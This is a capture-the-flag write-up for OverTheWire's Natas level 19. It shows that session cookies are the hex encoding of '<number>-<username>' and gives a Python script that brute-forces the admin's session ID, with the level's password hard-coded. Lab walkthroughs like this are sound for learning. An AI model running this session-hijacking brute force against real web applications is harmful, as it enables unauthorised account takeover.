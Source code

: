 I tried to log in 5 times using the same username and password. Interestingly, each session returned a different cookie. However, upon closer inspection, it seems like the last few digits `d61646d696e` are always the same.

Then I thought to myself, what happens if I change the username?

```
<RequestsCookieJar[<Cookie PHPSESSID=3237382d75736572 for natas19.natas.labs.overthewire.org/>]>
<RequestsCookieJar[<Cookie PHPSESSID=3332382d75736572 for natas19.natas.labs.overthewire.org/>]>
<RequestsCookieJar[<Cookie PHPSESSID=3133342d75736572 for natas19.natas.labs.overthewire.org/>]>
<RequestsCookieJar[<Cookie PHPSESSID=3133322d75736572 for natas19.natas.labs.overthewire.org/>]>
<RequestsCookieJar[<Cookie PHPSESSID=3439332d75736572 for natas19.natas.labs.overthewire.org/>]>
```

Surprisingly, the last digits changed! Now, what if I submitted a blank username?

```
<RequestsCookieJar[<Cookie PHPSESSID=3630322d for natas19.natas.labs.overthewire.org/>]>
<RequestsCookieJar[<Cookie PHPSESSID=3538322d for natas19.natas.labs.overthewire.org/>]>
<RequestsCookieJar[<Cookie PHPSESSID=3336352d for natas19.natas.labs.overthewire.org/>]>
<RequestsCookieJar[<Cookie PHPSESSID=3432322d for natas19.natas.labs.overthewire.org/>]>
<RequestsCookieJar[<Cookie PHPSESSID=3531322d for natas19.natas.labs.overthewire.org/>]>
```

The cookies became shorter! Then, I took some of the cookies to [cyberchef](https://gchq.github.io/CyberChef/) to decode the encoded string. It turns out that the cookies were encoded in Hex in the following format `<random number> - <username>`!

```
609-admin
639-admin
462-admin
234-admin
163-admin
```

Now that we know its encoding method, let's try to bruteforce the admin's session id using a python script.

```
import requests

username = "natas19"
password = "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs"

session = requests.Session()

url = "http://{}.natas.labs.overthewire.org/".format(username)

# response = session.post(
#     url, data={"username": "admin", "password": "password"}, auth=(username, password))
# print(bytes.fromhex(session.cookies["PHPSESSID"]).decode('utf-8'))

# print("test".encode("utf-8").hex())

max_id = 640
admin_id = 0

for session_id in range(max_id + 1):
    print("Trying session id {} now".format(session_id))
    encoded_session_id = "{}-admin".format(session_id).encode("utf-8").hex()
    response = session.get(
        url, cookies={"PHPSESSID": "{}".format(encoded_session_id)}, auth=(username, password))
    content = response.text
    if "You are an admin." in content:
        admin_id = session_id
        print(content)
        break

```
